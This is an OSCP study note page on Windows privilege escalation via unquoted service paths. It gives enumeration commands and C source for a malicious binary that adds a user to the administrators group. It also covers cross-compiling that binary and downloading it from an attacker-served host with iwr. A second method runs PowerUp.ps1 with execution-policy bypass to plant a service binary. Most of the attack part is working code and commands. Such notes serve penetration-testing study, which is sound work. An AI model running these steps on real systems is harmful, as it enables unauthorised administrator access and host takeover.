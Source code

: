 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/7-unquoted-service-paths/"}
---
```


- Works when we have write-permissions to a service's main- or sub-directories but cannot replace files within them.
- Services are started with 'CreateProcess' and the parameter 'IpApplicationName'. If the path that follows that parameter contains one or more spaces and is not enclosed within quotes it may be abused for a privesc.
- Paths are read from left to right, and for every space all preceding words are interpreted as executables, and the rest as arguments. Example:
```
C:\Program Files\My Program\My Service\service.exe
---------------------------------------------------
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- Therefore if that happens an executable with one of those name can be placed an used to privesc.
------------

### Unquoted Service Path Service Privesc:
1. Enumerate running services for misconfigured paths (only works in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2. Check for write access rights in the service's butchered search order swith 'icacls'.
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Restart the service -- win!
-------------------------

### Automatic Unquoted Service Path Privesc with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check for vulerable paths:
```
Get-UnquotedService
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Write-ServiceBinary -Name '<servicename>' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
7. Win!

